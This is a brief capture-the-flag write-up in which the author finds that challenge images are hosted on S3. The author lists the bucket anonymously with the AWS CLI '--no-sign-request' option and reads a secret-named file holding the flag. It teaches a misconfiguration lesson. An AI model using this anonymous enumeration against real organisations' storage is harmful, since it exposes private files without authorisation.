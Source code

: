 Try get photo url.

![image](https://github.com/i-m-down-QQ/writeups/assets/67849251/87f217e7-d8a6-4cd9-b0de-db51e4750e03)

It is s3.

Try list.

``` bash
$ aws s3 ls htodogpics --no-sign-request
2024-03-27 16:53:07      35201 KakaoTalk_20240322_225011458.jpg
2024-03-27 16:53:07      63496 KakaoTalk_20240322_225011458_01.jpg
2024-03-27 16:53:08      18788 KakaoTalk_20240322_225011458_02.jpg
2024-03-27 16:53:08      79530 KakaoTalk_20240322_225011458_03.jpg
2024-03-27 16:53:09     101359 KakaoTalk_20240322_225011458_04.jpg
2024-03-27 16:53:09      89889 KakaoTalk_20240322_225011458_05.jpg
2024-03-27 16:53:09     101009 KakaoTalk_20240322_225011458_06.jpg
2024-03-27 16:53:09      52563 KakaoTalk_20240322_225011458_07.jpg
2024-03-27 16:53:10     180610 KakaoTalk_20240322_225011458_08.jpg
2024-03-27 16:53:10     120779 KakaoTalk_20240322_225011458_09.jpg
2024-03-27 16:53:11     116943 KakaoTalk_20240322_225011458_10.jpg
2024-03-27 16:53:11      62929 KakaoTalk_20240322_225011458_11.jpg
2024-03-27 16:53:11      86928 KakaoTalk_20240322_225011458_12.jpg
2024-03-27 16:53:12     135391 KakaoTalk_20240322_225011458_13.jpg
2024-03-27 16:53:12     135960 KakaoTalk_20240322_225011458_14.jpg
2024-03-27 16:53:01     102581 KakaoTalk_20240322_225011458_15.jpg
2024-03-27 16:53:01      48535 KakaoTalk_20240322_225011458_16.jpg
2024-03-27 16:53:01      41072 KakaoTalk_20240322_225011458_17.jpg
2024-03-27 16:53:02     102591 KakaoTalk_20240322_225011458_18.jpg
2024-03-27 16:53:02     143313 KakaoTalk_20240322_225011458_19.jpg
2024-03-27 16:53:03     100793 KakaoTalk_20240322_225011458_20.jpg
2024-03-27 16:53:03      79099 KakaoTalk_20240322_225011458_21.jpg
2024-03-27 16:53:04     179323 KakaoTalk_20240322_225011458_22.jpg
2024-03-27 16:53:05      62237 KakaoTalk_20240322_225209463.jpg
2024-03-27 16:53:05      92706 KakaoTalk_20240322_225209463_01.jpg
2024-03-27 16:53:05      88516 KakaoTalk_20240322_225209463_02.jpg
2024-03-27 16:53:06      76522 KakaoTalk_20240322_225209463_03.jpg
2024-03-27 16:53:06     101761 KakaoTalk_20240322_225209463_04.jpg
2024-03-27 16:53:06      69273 KakaoTalk_20240322_225209463_05.jpg
2024-03-27 16:53:07      84016 KakaoTalk_20240322_225209463_06.jpg
2024-03-27 16:57:43        239 OMG_SUPER_S3CR3T_PR0TECTED_F1LE.txt
2024-04-12 03:07:48         42 index.html
2024-03-27 17:01:36         69 robots.txt
```

read OMG_SUPER_S3CR3T_PR0TECTED_F1LE.txt

```
Oh no! It looks like I made a mistake in configuring the S3 bucket policy, which means that all objects are now visible! This is a big problem, as it means that all of our important files are also exposed.

FLAG : IMPORTANT_S3_P0L1CY_ByJ
```
